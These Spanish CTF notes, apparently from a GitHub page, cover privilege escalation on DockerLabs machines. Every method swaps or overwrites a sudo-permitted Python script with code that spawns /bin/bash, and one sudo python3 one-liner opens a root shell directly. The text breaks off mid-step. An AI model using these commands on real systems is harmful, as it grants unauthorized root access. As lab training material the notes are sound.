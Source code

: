 echo "import os
os.system('/bin/bash')" > geo_ip.py

luego ejectuamos el comando:

sudo /usr/bin/python3 /opt/maintenance.py

listo somos root !!!

hay ocasiones en que no podemos crear en ciertos directorios, para eso tenemos que verificar que tipo de permisos tenemos con el siguiente comando ls -l nombre-directorio.

Ver la forma de escalar privilegios de la máquina secretjenkins de dockerlabs

En el caso de la máquina secretjenkins, para escalar a root, tenemos que hacer el aritificio de cambiar el nombre del archivo script.py a scripts.py y luego crear un archiv con: 

echo "import os
os.system('/bin/bash')" > script.py 

para luego ejecutar:

sudo /usr/bin/python3 /opt/script.py

y listo somos root !!!


* otra casuistica es que no hay un archivo .py entonces hacemos

sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'

listo somos root !!!

* User 404-page may run the following commands on a9ae03d11295:
    (200-ok : 200-ok) /home/404-page/calculator.py


modificamos o cambiamos de nombre al a calculator.py como cal.py y creamos un calculator.py, agregamos el siguiente código:

import os
os.system('/bin/bash')

si al ejecutar:

sudo -u 200-ok /home/404-page/calculator.py

me sale este error:

/home/404-page/calculator.py: 1: import: not found
/home/404-page/calculator.py: 2: Syntax error: word unexpected (expecting ")")

debemos agregarle al archivo (en la primera línea)
#!/usr/bin/env python3

el archivo calculator quedaría así:

#!/usr/bin/env python3
import os
os.system('/bin/bash')

y volvemos a ejecutar:
